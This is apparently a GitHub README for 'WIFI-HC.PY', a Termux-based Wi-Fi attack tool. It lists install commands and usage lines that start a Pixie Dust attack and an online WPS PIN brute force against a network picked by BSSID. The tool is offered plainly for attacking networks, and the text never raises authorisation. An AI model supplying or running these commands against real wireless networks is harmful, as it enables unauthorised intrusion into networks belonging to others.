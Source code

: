 # Installation : 

apt update && apt upgrade

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw

git clone https://github.com/Flymajik/WIFI-HC.PY

cd WIFI-HC.PY

chmod +x WIFI-HC.PY

sudo python WIFI-HC.PY --help 


# Note: 

# [√] First turn off your Wifi. 

Show avaliable networks and start Pixie 

Dust attack on a specified network. 

# [=] sudo python WIFI-HC.PY -i wlan0 -K 

Start Pixie Dust attack on a specified 

# [=] BSSID: sudo python WIFI-HC.PY -i wlan0 -b 00:91:4C:C3:AC:28 -K 

Launch online WPS bruteforce with the 

specified first half of the PIN: 

# [=] sudo python WIFI-HC.PY -i wlan0 -b 

00:90:4C:C1:AC:21 -B -p 1234 

# Troubleshooting 

"Device or resource busy (-16)" - Turn on 

Wifi and Then Turn off Wifi.
